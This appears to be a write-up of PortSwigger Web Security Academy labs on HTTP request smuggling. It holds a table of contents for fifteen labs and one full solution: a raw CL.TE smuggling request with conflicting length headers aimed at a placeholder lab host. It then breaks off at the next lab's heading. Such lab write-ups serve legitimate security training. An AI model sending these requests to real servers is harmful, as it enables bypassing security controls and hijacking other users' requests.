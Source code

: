 # Table of Contents

- [[#HTTP request smuggling, basic CL.TE vulnerability]]
- [[#HTTP request smuggling, basic TE.CL vulnerability]]
- [[#HTTP request smuggling, obfuscating the TE header]]
- [[#HTTP request smuggling, confirming a CL.TE vulnerability via differential responses]]
- [[#HTTP request smuggling, confirming a TE.CL vulnerability via differential responses]]
- [[#Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability]]
- [[#Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability]]
- [[#Exploiting HTTP request smuggling to reveal front-end request rewriting]]
- [[#Exploiting HTTP request smuggling to capture other users' requests]]
- [[#Exploiting HTTP request smuggling to deliver reflected XSS]]
- [[#Response queue poisoning via H2 TE request smuggling]]
- [[#H2 CL request smuggling]]
- [[#HTTP 2 request smuggling via CRLF injection]]
- [[#HTTP 2 request splitting via CRLF injection]]
- [[#CL 0 request smuggling]]

# HTTP request smuggling, basic CL.TE vulnerability
Reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te


## Quick Solution
As said in the title this website is vulnerable to a simple CL.TE vulnerability. Payload in the next paragraph.


## Solution
Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
The second response should say: ``Unrecognized method GPOST``.


# HTTP request smuggling, basic TE.CL vulnerability
Reference: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

